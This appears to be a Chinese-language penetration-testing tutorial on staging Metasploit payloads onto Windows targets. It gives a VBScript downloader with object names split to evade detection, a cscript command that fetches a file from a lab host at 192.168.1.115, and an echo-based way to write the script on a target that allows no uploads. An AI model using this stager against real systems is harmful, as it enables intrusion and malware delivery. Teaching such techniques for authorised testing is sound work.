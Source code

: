 一次 msf 完整的流程离不开目标机的 payload 下载与执行。而针对不同环境目标，考虑或者选择不同方式的 payload 下载与执行。如 webshell 下，注入点下。smb 下等。而针对不同的实际环境，来做最好的选择。

既然本季开始专门针对 windows 下的 payload 下载讲解，那么就需要考虑到目标机的系统版本，是windows2000，windows 2003，或者是更高的版本如 windows 2016等。

无论是哪个版本的windows系列，都是支持vbs的。

**靶机：**windows 2003  

### vbs：  

保存downfile.vbs
```visual-basic
set a=createobject("adod"+"b.stream"):set
w=createobject("micro"+"soft.xmlhttp"):w.open "get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2
```

### 命令行下执行：
```bash
cscript downfile.vbs http://192.168.1.115/robots.txt C:\Inetpub\b.txt
```

![](/img/7f46749ce580dd58f217f4757f5f6529.jpg)

往往在实战中，没有上传的方便条件，尤其是目标机是 windows，只有 echo 方式来写入 vbs。

### 命令行下执行：
```bash
echo set a=createobject(^"adod^"+^"b.stream^"):set
w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2 >>downfile.vbs
```  

**优点：**支持windows全版本系列  
**缺点：**对https不友好

>   Micropoor
